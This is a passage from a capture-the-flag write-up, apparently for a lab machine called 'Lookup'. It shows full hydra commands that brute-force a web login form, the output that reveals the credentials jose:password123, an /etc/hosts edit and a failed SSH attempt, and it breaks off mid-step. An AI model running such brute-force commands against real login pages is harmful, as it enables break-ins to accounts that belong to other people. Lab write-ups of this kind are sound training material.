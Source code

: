 #### Password

```bash
hydra -l admin -p wordlist/rockyou.txt lookup.thm http-post-form "/login.php:username=^USER^&password=^PASS^:F=try again"
```

Output:
```
[80][http-post-form] host: lookup.thm   login: admin   password: password123
```
#### Username
```bash
hydra -L /seclists/current/Usernames/Names/names.txt -p password123 lookup.thm http-post-form "/login.php:username=^USER^&password=^PASS^:F=try again"
```

Output:
```
[80][http-post-form] host: lookup.thm   login: jose   password: password123
```

We confirm that the valid credentials are `jose:password123`.

### Logging In

We use the found credentials to log into the system:

```bash
login: jose
password: password123
```

After logging in, we are redirected to another domain. We update the `/etc/hosts` file again:

```bash
echo "10.10.80.211 files.lookup.thm" | sudo tee -a /etc/hosts
```

<div align="center">
<img src="https://github.com/user-attachments/assets/adff4566-9664-4b7b-aa19-9653712564aa" height="300"></img>
</div>

### Exploring the `credential.txt` File

Upon opening the `credential.txt` file, we find some credentials, which might be for SSH:

<div align="center">
<img src="https://github.com/user-attachments/assets/e27d8329-be23-44fd-8c4b-ac731cf6309c" height="400"></img>
</div>

We attempt to use these credentials for SSH login:

```bash
ssh think@10.10.80.211
```

However, this attempt fails:
